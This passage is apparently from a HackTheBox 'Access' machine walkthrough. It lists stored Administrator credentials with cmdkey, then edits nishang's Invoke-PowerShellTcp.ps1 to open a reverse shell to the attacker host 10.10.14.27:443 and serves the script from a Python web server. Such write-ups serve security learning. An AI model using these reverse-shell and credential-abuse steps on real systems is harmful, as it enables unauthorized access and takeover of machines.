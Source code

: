 So I can cat it, but I can't see it very well:

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Access/images/1.png)

We can view it better using the command ```cmdkey```:
```
C:\Users\Public\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

So first clone this from github: https://github.com/samratashok/nishang.git . Let's copy ```Invoke-PowerShellTcp.ps1``` and edit it:

```
┌──(kali㉿kali)-[~/Desktop/HTB/Access]
└─$ cp nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

And now add this line to the end of it: ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443```

So you will be having somthing like this:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Access]
└─$ tail Invoke-PowerShellTcp.ps1                                                                                                                                                                                                      1 ⚙
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443
```

And now start a python webserver:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Access]
└─$ python3 -m http.server                                                                                                                                                                                                             1 ⚙
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
